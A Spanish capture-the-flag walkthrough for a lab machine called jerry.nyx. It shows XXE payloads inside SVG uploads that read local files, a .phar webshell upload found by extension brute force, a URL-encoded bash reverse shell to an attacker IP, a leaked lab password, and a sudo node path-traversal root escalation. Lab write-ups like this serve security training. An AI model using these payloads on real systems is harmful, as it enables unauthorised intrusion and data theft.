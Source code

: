 Hacemos el escaneo de nmap:
![[Pasted image 20240314100127.png]]
Y esta es la web:
![[Pasted image 20240314100228.png]]
Pero mirando el código fuente vemos como existe un jerry.nyx:
![[Pasted image 20240314100344.png]]
Añadimos este host al /etc/hosts:
![[Pasted image 20240314103707.png]]
Pero en la web en la parte de request a job vemos un panel de contacto donde podemos subir archivos:
![[Pasted image 20240314104135.png]]
Y si analizamos este panel de subida de archivos, vemos que admite extensiones como png, jpg:
![[Pasted image 20240314104614.png]]
Y en la parte del principio vemos como se utiliza un script llamado script.js:
![[Pasted image 20240314104902.png]]
Vamos a acceder a él:
![[Pasted image 20240314104925.png]]
Una vez en este punto, al ver que se procesan imágenes, se puede probar en subir un archivo svg, el cual es posible que lo interprete y además tenemos en cuenta que svg funciona con XML:
![[Pasted image 20240314110926.png]]
Y en este artículo vemos que podemos incrustar un XXE dentro de un SVG:
https://j4ckie0x17.gitbook.io/notes-pentesting/pentesting-web/file-upload
![[Pasted image 20240314111105.png]]
Probamos en ver si esto acepta archivos .svg, primero descargando alguna imagen:
![[Pasted image 20240314111805.png]]
Una vez descargada esta imagen, quitamos las validaciones del código fuente para poder subirlo:
![[Pasted image 20240314111955.png]]
![[Pasted image 20240314112012.png]]
Y vemos que se subió correctamente:
![[Pasted image 20240314112031.png]]
Y ahora interceptamos esta petición con burp suite:
![[Pasted image 20240314112126.png]]
Pero llegados a este punto, es probable que el servidor interprete SVG, y al tratarse de este tipo de extensión, puede interpretar XML, por lo que intentamos explotar un XXE y vemos que sí funciona:
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
![[Pasted image 20240314112336.png]]
Ahora en este punto, podemos intentar leer el contenido del archivo upload.php que anteriormente no teníamos permiso para leer, ya que si lo ponemos en el navegador vemos que se queda en blanco:
![[Pasted image 20240314112900.png]]
![[Pasted image 20240314112948.png]]
Para leer este archivo, podemos utilizar un wrapper en la explotación del XXE:
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```
![[Pasted image 20240314113010.png]]
De tal forma que nos devuelve esa cadena en base64, la cual vamos a decodificar:
![[Pasted image 20240314113112.png]]
Si analizamos este código, nos encontramos con el directorio de /job_request_files/ y además que se le cambia el nombre a los archivos que subamos:
![[Pasted image 20240314113222.png]]
Aunque vemos que en este directorio no se muestra nada:
![[Pasted image 20240314113248.png]]
Entonces una vez sabido esto y cómo este script procesa la información, vamos a subir un archivo malicioso en php y vamos a llamarlo desde la anterior ruta con el nuevo nombre que se le proporciona:
![[Pasted image 20240314113556.png]]
Pero vemos que no nos permite la extensión:
![[Pasted image 20240314113722.png]]
Ahora debemos de saber qué extensión compatible con php admite el servidor, por tanto para ello vamos a buscar una wordlist:
https://github.com/InfoSecWarrior/Offensive-Payloads/blob/main/File-Extensions-Wordlist.txt
![[Pasted image 20240314114654.png]]
Y ahora con estas wordlists vamos a filtrar únicamente por aquellas que empiecen en .ph:
![[Pasted image 20240314114717.png]]
De esta forma podemos pasar esta nueva wordlist al burp suite:
```bash
grep '^\.ph' extensions.txt > php_extensiones.php
```
Preparamos el intruder de burp suite:
![[Pasted image 20240314114813.png]]
Cargamos la nueva wordlist:
![[Pasted image 20240314114845.png]]
Desactivamos esta opción:
![[Pasted image 20240314115001.png]]
Y vemos que nos admite un .phar:
![[Pasted image 20240314115021.png]]
Vemos que esto sí lo interpreta correctamente:
![[Pasted image 20240314115128.png]]
Una vez visto esto y subido esta webshell, vamos a ver qué nombre se le habrá asignado analizando el archivo en .php:
![[Pasted image 20240314113222.png]]
Se le habrá asignado antes del nombre pwned.php el año, mes y día, seguido de una barra baja y luego el nombre que le hayamos puesto:
```bash
http://192.168.0.16/request/job_request_files/24-03-14_pwned.phar?cmd=whoami
```
Lo ponemos en el navegador y vemos que funciona:
![[Pasted image 20240314115408.png]]
Una vez obtenida la ejecución remota de comandos, obtenemos una reverse shell:
```bash
http://192.168.0.16/request/job_request_files/24-03-14_pwned.phar?cmd=%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%30%2e%32%30%2f%34%34%33%20%30%3e%26%31%22
```
![[Pasted image 20240314115605.png]]
Una vez dentro, vemos estos usuarios:
![[Pasted image 20240314152603.png]]
Pero veíamos que con nmap estaba abierto el puerto 25, que sirve para gestionar correos electrónicos mediante el protocolo snmp. Por tanto, consultamos el directorio /var/mail, ya que suele haber cosas interesantes por aquí si dicho protocolo está en funcionamiento:
![[Pasted image 20240314152757.png]]
Y dentro de /opt nos encontramos con esto:
![[Pasted image 20240314153020.png]]
Y dentro de scripts vemos que se hace una copia de seguridad dentro del directorio /backups_mail:
![[Pasted image 20240314153116.png]]
Y efectivamente vemos copias de seguridad en formato .zip:
![[Pasted image 20240314153142.png]]
Nos lo pasamos a nuestra máquina atacante:
![[Pasted image 20240314153230.png]]
Descomprimimos alguno de estos zips y si vemos por ejemplo el contenido del archivo elaine vemos su contraseña:
![[Pasted image 20240314153433.png]]
![[Pasted image 20240314153452.png]]
```bash
elaine:imelainenotsusie
```
Y tenemos acceso por SSH:
![[Pasted image 20240314153549.png]]
Y ejecutando el comando sudo -l vemos que este usuario puede ejecutar como root lo siguiente:
![[Pasted image 20240314153637.png]]
Pero en ese directorio no tenemos ningún tipo de permiso. No obstante, podemos hacer un path traversal y navegar por los directorios hasta llamar a un archivo javascript malicioso para que ejecute el código que queramos. Por lo que creamos una reverse shell en node por ejemplo en /tmp:
![[Pasted image 20240314155417.png]]
Lo pegamos dentro del archivo reverse.js y mediante un path traversal vamos a ejecutarlo con node:
```bash
sudo /usr/bin/node /opt/scripts/*.js/../../../../../../../../tmp/reverse.js
```
![[Pasted image 20240314155505.png]]
Y recibimos la reverse shell:
![[Pasted image 20240314155517.png]]
